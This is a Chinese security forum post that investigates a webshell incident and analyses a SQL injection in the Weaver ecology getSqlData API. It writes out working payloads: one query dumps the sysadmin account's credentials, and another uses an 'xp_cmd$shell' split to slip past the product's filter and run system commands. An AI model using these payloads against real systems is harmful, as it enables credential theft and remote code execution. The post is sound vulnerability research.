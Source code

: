 0x01 序言
=======

事情起源于在服务器上看到了命名随机的jsp文件，打开内容一看是webshell。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-73195b0d167d82c7838561460415136abb692c5d.jpg)  
根据webshell修改时间，将当天的`D:/WEAVER/Resin/logs/access.log`和`D:/WEAVER/Resin/log/stderr.log`取出来进行分析，以查找其利用路径。  
在stderr.log中发现，攻击者利用SQL注入执行xp\_cmdshell命令来上传的文件  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-fa5df8413e3ac29d75b744e4337a574361ec73d3.jpg)  
存在SQL注入的mapper已经确定是`GetSqlDataMapper.xml`.于是便开启了对该漏洞的分析研究

0x02 getSqlData接口SQL注入分析
========================

2.1 漏洞分析
--------

首先来到`GetSqlDataMapper.xml`，看一下其SQL拼接情况，如下：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-37fc2beae47cb36530b22e98dc9c288f62e1d1e0.jpg)  
直接将传入的sql参数的值，作为SQL语句进行执行。向上寻找该mapper的调用过程。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-4d790b72c459adec40d73c132fc8674392b87e9c.jpg)  
继续寻找GetSqlDataMapper接口的调用者  
在`classbean/com/engine/portal/cmd/elementecodeaddon/GetSqlDataCmd.class`中，逻辑如下：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-ad3c64f937cbdda987b84855cd7d54b070787544.jpg)  
所以，可以认定此处存在SQL注入。然后我们寻找Web访问接口的位置，因为都是class搜索调用十分不方便，所以使用Windows命令搜索：

```bash
findstr /c:"GetSqlDataCmd" /d:"D://WEAVER//ecology//classbean//" /si *.class
```

然后其调用关系：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-7f0c21e41261042fe1a592f45248ae8f1fe0ebba.jpg)  
所以，找到web入口

```bash
/Api/portal/elementEcodeAddon/getSqlData?sql=
```

这个接口的SQL注入在互联网早已不稀奇，翻看了大多数利用方法都是SQL注入查信息，并没有使用xp\_cmdshell获取权限的案例。

2.2 漏洞利用
--------

### 2.2.1 查询管理员信息

这是往上比较常见的利用方法，可以通过执行SQL语句查询ecology的管理员账号密码，从而登录后台。  
payload如下：  
`/Api/portal/elementEcodeAddon/getSqlData?sql=Select%20*%20from%20HrmResourceManager%20where%20loginid=%27sysadmin%27`  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-5ee1d9750e22d5c18fb00462cccb1e5565e95884.jpg)  
然后利用账号密码登录后台  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-40c5aff52ca3cc8d16a5e62802ac82b2b8ffa8fb.jpg)

### 2.2.2 执行命令

ecology的数据库大多数是使用mssql的，而mssql在SQL注入中，常用于执行命令的是`xp_cmdshell`，加上该接口直接传入SQL语句，那么我们可以直接通过`exec xp_cmdshell`来执行命令。测试如下：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-5404d1d21dd5f3f1364ce26890e5c2ac876dc380.jpg)  
在ecology的《Ecology系统安全配置说明.docx》有做相关说明，如下：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-9e1285ba87a3055db22b22567f70a4bec1f13e5f.jpg)  
所以带有`xp_cmdshell`是肯定会被拦截的，但是想到刚才分析漏洞时，传入的sql会以`$`进行分割。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-ca06eb7d376a96448ca670b726008485d94a245b.jpg)  
那么，如果我传入`exec xp_cmd$shell 'whoami';`，则最终的语句会是：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-3ab1458fd0303d850dcdb70c900d87fce1f9bb70.jpg)  
所以，可以用该方法进行绕过。测试如下：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-6a5a5c9c6345b1105050b9cbfc386bcf519011f1.jpg)  
最终payload：

```bash
/Api/portal/elementEcodeAddon/getSqlData?sql=exec%20xp_cmd$shell%20%27whoami%27;
```

当然要先激活`xp_cmdshell`，激活方法：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-c6fd849cad3186414f99f4d89cea1fb8bae60cd2.jpg)

2.3 武器化
-------

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-657a0a8e194457b472e10b17bc1294d795d9324b.jpg)